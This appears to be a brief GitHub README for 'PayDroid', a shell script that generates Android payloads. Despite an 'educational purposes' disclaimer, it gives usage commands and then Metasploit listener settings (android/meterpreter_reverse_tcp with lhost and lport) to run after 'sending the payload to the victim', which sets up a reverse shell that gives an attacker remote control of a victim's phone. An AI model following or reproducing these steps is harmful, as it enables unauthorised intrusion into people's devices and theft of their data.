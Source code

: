 PayDroid is a very simple tool made for educational purposees
So please don't use it for any malecious activity

Author = Anil Shrestha

uses
- cd PayDroid
- chmod +x PayDroid.sh
- ./PayDroid.sh

After sending the payload today the victim and starting the Listner
- set payload android/meterpreter_reverse_tcp
- set lhost your_ip
- set lport port_you_choosed
- - exploit
